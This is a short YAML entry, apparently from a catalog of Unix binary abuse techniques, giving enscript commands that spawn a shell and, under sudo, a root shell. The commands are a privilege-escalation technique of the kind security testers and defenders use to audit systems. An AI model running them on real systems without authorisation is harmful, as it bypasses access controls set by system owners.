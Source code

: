 ```yaml
---
functions:
  shell:
    - code: enscript /dev/null -qo /dev/null -I '/bin/sh >&2'
  sudo:
    - code: sudo enscript /dev/null -qo /dev/null -I '/bin/sh >&2'
---
```

